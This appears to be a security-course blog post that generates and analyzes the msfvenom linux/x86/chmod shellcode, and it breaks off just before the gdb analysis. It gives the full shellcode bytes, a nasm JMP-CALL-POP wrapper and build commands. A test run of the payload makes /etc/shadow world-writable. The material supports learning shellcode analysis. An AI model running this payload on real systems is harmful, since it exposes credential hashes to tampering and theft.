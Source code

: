 title: SLAE32 Assignment 5.2 -- Analyzing MSFVenom `linux/x86/chmod` Shellcode
date: 2019-9-15
layout: single
classes: wide
tags:
  - msfvenom
  - metasploit
  - chmod
  - assembly
  - SLAE
  - linux
  - x86
  - shellcode
--- 
![](/assets/images/SLAE32.png)
## Overview

## Preparing the Shellcode for `gdb` & `disasm` Analysis
### Generating the `chmod` Shellcode
+ We will export the shellcode to the python format.
  -  This will allow us to add the shellcode to our python script for formatting.
+ Once we generate the correct format for our shellcode, we will add it to our `JMP|Call|POP` assembly program.
  - This will allow us to easily analyze the shellcode with `gdb` and `disasm`.

```console
root@zed# msfvenom -p linux/x86/chmod --format python 2>/dev/null | \
> egrep "^buf " | sed -e 's/buf /sc /g'
sc =  ""
sc += "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74"
sc += "\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01"
sc += "\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80"
```
### Formatting the Shellcode for Assembly Compilation
+ We will copy the `sc` python variable generated above, and add it to our python script.
+ Typically `msfvenom` generates the shellcode in the `\x99` we see above.
+ We need the shellcode to be in the `0x99,` format.
  - Assembly requires we use the `0x99,` format for assigning a hex string to memory.
#### Our Python Script to Format the Hex Code
```python
#!/usr/bin/python
# Filename: formatHex.py
# Author:   boku
# Purpose:  A python script that converts the '\x' format to '0x ,'

# Add the shellcode hex here.
sc =  ""
sc += "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74"
sc += "\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01"
sc += "\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80"

output = ""
print 'Encoded shellcode ...'
for x in bytearray(sc) :
        output += '0x'
        output += '%02x,' %x
print output
```

#### Generating the Hex in the `0x ,` Format
+ The `\<Return>` at the end was added after for formatting.
  - This format does work when compiling shellcode with `nasm`.
  - Nasm does not seem to care about `<space>` characters either.

```console
root# python formatHex.py
Encoded shellcode ...
0x99,0x6a,0x0f,0x58,0x52,0xe8,0x0c,\
0x00,0x00,0x00,0x2f,0x65,0x74,0x63,0x2f,0x73,\
0x68,0x61,0x64,0x6f,0x77,0x00,0x5b,0x68,0xb6,\
0x01,0x00,0x00,0x59,0xcd,0x80,0x6a,0x01,0x58,\
0xcd,0x80
```



### Adding the Shellcode to our `JMP|Call|POP` Assembly Program
+ To get nasm syntax highlighting in Vim I used the command `:set syn=nasm`.

```nasm
; Filename: jmpCallPop.nasm
; Author:  Bobby Cooke
global _start
section .text
_start:
; 1. Jump to where our Shellcode string is
  jmp short call_shellcode
decoder:
  pop esi
jmp2_shellcode:
; 3. Now that the memory location of our string is on the top of the
;     stack, we will pass control to it using the jmp instruction.
  pop eax
  jmp eax
call_shellcode:
; 2. Call to the instruction that will jump us into our Shellcode
;    - Call is like jump, but stores the memory location of the next
;       instruction onto the Stack; which is our Shellcode.
  call jmp2_shellcode
  shellcode: db 0x99,0x6a,0x0f,0x58,0x52,0xe8,0x0c,\
      0x00,0x00,0x00,0x2f,0x65,0x74,0x63,0x2f,0x73,\
      0x68,0x61,0x64,0x6f,0x77,0x00,0x5b,0x68,0xb6,\
      0x01,0x00,0x00,0x59,0xcd,0x80,0x6a,0x01,0x58,\
      0xcd,0x80
```
### Compiling our `JMP|Call|POP` Shellcode
```console
root# nasm -f elf32 jmpCallPop.nasm -o jmpCallPop.o
root# ld jmpCallPop.o -o jmpCallPop
```
### Testing our `chmod` Shellcode
+ We can see what the `chmod` Shellcode will do with the command.
+ We see that the default payload will change the file `/etc/shadow` to the permissions `rw-rw-rw-`.

```console
root# msfvenom --payload linux/x86/chmod --list-options
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode
```
root# ls -l /etc/shadow
-rw-r----- 1 root shadow 1074 Sep  3 11:17 /etc/shadow
root# ./jmpCallPop
root# ls -l /etc/shadow
-rw-rw-rw- 1 root shadow 1074 Sep  3 11:17 /etc/shadow
```
Great! Our payload works as intended. Now lets set a breakpoint and analyze the shellcode with `gdb`.

## Analyzing the Shellcode with `gdb`
